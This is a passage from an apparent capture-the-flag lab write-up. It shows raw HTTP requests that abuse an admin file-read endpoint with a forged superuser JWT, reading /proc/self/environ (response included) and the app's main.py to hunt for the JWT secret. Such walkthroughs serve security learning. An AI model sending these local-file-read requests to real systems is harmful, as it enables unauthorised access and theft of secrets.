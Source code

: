 ```http
```
To try to enumerate more about directories where this app is running, we can use `/proc/self/environ`:
```http
POST /api/v1/admin/file HTTP/1.1
Host: 10.10.11.161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.161/docs
Content-Type: application/json
Origin: http://10.10.11.161
Content-Length: 34
Connection: close
Sec-GPC: 1
Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU5NjMzMjE5LCJpYXQiOjE2NTg5NDIwMTksInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.6pBW4BPGXUva9_et2wRTmi69Iy9h7Oxs4vssoNTXh2s

{
  "file": "/proc/self/environ"
}
```
And we can see:  
```http
HTTP/1.1 200 OK
date: Wed, 27 Jul 2022 17:14:01 GMT
server: uvicorn
content-length: 420
content-type: application/json
Connection: close

{"file":"APP_MODULE=app.main:app\u0000PWD=/home/htb/uhc\u0000LOGNAME=htb\u0000PORT=80\u0000HOME=/home/htb\u0000LANG=C.UTF-8\u0000VIRTUAL_ENV=/home/htb/uhc/.venv\u0000INVOCATION_ID=2ed503a8b75f4a35abcb85deb7853626\u0000HOST=0.0.0.0\u0000USER=htb\u0000SHLVL=0\u0000PS1=(.venv) \u0000JOURNAL_STREAM=9:17334\u0000PATH=/home/htb/uhc/.venv/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\u0000OLDPWD=/\u0000"}
```
As we can see the app is running in `/home/htb/uhc/app` and the main file id `main.py`.  
Since we have an LFI, we can look at the source and see if the JWT secret is configured there:  
```http
POST /api/v1/admin/file HTTP/1.1
Host: 10.10.11.161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.161/docs
Content-Type: application/json
Origin: http://10.10.11.161
Content-Length: 41
Connection: close
Sec-GPC: 1
Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU5NjMzMjE5LCJpYXQiOjE2NTg5NDIwMTksInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.6pBW4BPGXUva9_et2wRTmi69Iy9h7Oxs4vssoNTXh2s

{
  "file": "/home/htb/uhc/app/main.py"
}
```
and after some mods we can see as a response the file:  
```python
```